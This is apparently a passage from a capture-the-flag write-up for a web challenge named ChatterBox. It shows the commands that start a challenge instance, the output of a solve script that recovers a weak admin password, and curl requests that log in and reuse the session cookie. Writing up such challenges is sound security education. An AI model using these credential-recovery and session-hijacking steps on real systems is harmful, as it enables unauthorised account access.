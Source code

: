 Testing the script on remote works as demonstrated:
```
$ nc 47.89.225.36 9999

   ___    _                _       _                                ___
  / __|  | |_     __ _    | |_    | |_     ___      _ _     o O O  | _ )    ___    __ __
 | (__   | ' \   / _` |   |  _|   |  _|   / -_)    | '_|   o       | _ \   / _ \   \ \ /
  \___|  |_||_|  \__,_|   _\__|   _\__|   \___|   _|_|_   TS__[O]  |___/   \___/   /_\__|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""| {======|_|"""""|_|"""""|_|"""""|
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'./o--000'"`-0-0-'"`-0-0-'"`-0-0-'

1. tcp port 8080 will be forwarded to another port
2. Only one instance is allowd for each team at a time
3. Please input your team token now:
<REDACTED>

Now your new port is : 32504
You can visit http://47.89.225.36:32504
Please keep this connection

```

Running script against remote:
```
$ python3 solve.py 32504
WeakPasse8aa63fe-bdbb-11ee-ba10-0242ac11000, 1, 0.404789, 200
WeakPasse8aa63fe-bdbb-11ee-ba10-0242ac110002!!
```

Logging in with discovered password:
```
$ curl 'http://47.89.225.36:32504/login' -d 'username=admin&passwd=WeakPasse8aa63fe-bdbb-11ee-ba10-0242ac110002!!' -i
HTTP/1.1 302 
Set-Cookie: JSESSIONID=0A92DDDE3B63070E58F49366E0B7BFDC; Path=/; HttpOnly
Location: http://47.89.225.36:32504/;jsessionid=0A92DDDE3B63070E58F49366E0B7BFDC
Content-Language: en
Content-Length: 0
Date: Sun, 28 Jan 2024 09:06:29 GMT

```

Successful retrieval of index page with given JSESSIONID:
```
$ curl 'http://47.89.225.36:32504/' -H "Cookie: JSESSIONID=0A92DDDE3B63070E58F49366E0B7BFDC" -i
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en
Transfer-Encoding: chunked
Date: Sun, 28 Jan 2024 09:07:36 GMT

<!DOCTYPE html>
<html>
<head>
  <title>ChatterBox</title>
  <link href="/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
<div class="container mt-5">
  <h2>ChatterBox</h2>
  <form action="/post_message" method="post">
    <div class="mb-3">
      <textarea class="form-control" name="content" rows="3" placeholder="Write your message here..."></textarea>
    </div>
    <button type="submit" class="btn btn-primary">submit</button>
```